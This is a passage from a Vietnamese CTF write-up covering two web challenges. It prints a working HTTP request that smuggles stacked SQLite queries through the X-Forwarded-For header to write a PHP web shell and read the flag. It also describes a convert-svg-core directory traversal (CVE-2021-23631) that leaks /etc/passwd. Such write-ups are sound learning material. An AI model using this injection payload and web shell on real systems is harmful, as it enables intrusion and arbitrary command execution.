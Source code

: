 Ở đây chỉ cần chú ý tới `/subscribe` vì nó là chức năng chính.
- Route này sẽ gọi đến function `store` trong controller `SubsController`.
- Function `store` này làm nhiệm vụ kiểm ra `email` nhập vào bằng hàm `filter_var()` với tham số filter là `FILTER_VALIDATE_EMAIL`.
- Pass được filter thì tiếp tục đưa vô function `subscribe` trong model `SubscriberModel`.
- Hàm `subscribe` nhận tham số `$email` và khởi tạo thêm 1 biến `$ip_address`, sau đó đưa `$email` và `$ip_address` vào hàm `subscribeUser` nằm trong file `Database.php`.
    - `$ip_address` được gán bằng giá trị trả về của function `getSubscriberIP`. Hàm này sẽ nhận các giá trị của một trong các headers: `X-Forwarded-For`, `Client-Ip` hoặc ip hiện tại mình đang request.
- Hàm `subscribeUser` trong file `Database.php` sẽ thực hiện insert 2 giá trị `ip_address` và `email` vào table `subscribers`. Ở đây 2 input này mình đều control được nhưng lại được đưa vô thẳng câu query => có thể SQL Injection.

Dockerfile cho biết flag ở thư mục root chứ không phải trong database => cần RCE để đọc flag.
Hàm `exec` trong SQLite3 có hỗ trợ multiple query => lợi dụng điều này để thực hiện SQLi to RCE.

### Exploit
```
POST /subscribe HTTP/1.1
Host: 46.101.30.188:31220
Content-Length: 21
X-Forwarded-For: 123','3'); ATTACH DATABASE '/www/shell.php' AS lol; DROP TABLE IF EXISTS lol.pwn; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET[0]); ?>");--
Connection: close

email=abc@gmail.com
```
Truy cập vào webshell vừa ghi: `/shell.php?0=cat+/flag*`

**Flag**: `HTB{inj3ct3d_th3_tru7h}`

## Mutation Lab
Các chức năng chính fuzz được trên trang là:
- `/api/login`, `/api/register` -> thử một số payload SQL Injection cơ bản nhưng không khả thi.
- `/api/export` nhận input của người dùng là 1 file SVG từ tham số `svg` sau đó sẽ export ra 1 file png tương ứng.

Khi thay đổi nội dung của tham số `svg` không phải là nội dung của file svg thì sẽ reponse trả về exception kèm stack trace.

![Stack trace của website](https://i.imgur.com/BS0272a.png)

- Biết được chương trình sử dụng thư viện `convert-svg-core` để xử lí file svg nhận từ người dùng.
- Tìm kiếm trên Google thì biết được rằng thư viện này đã từng có lỗi `Directory Traversal` với mã CVE là [CVE-2021-23631](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785).
- Có header `X-Powered-By: Express` trong response => website được viết bằng Nodejs.

Thử chạy payload của CVE trên và sau đó truy cập vô đường dẫn mà file pdf đã export ra thì nhận được nội dung của file `/etc/passwd`.

![Nội dung file /etc/passwd](https://i.imgur.com/c7skaJf.png)
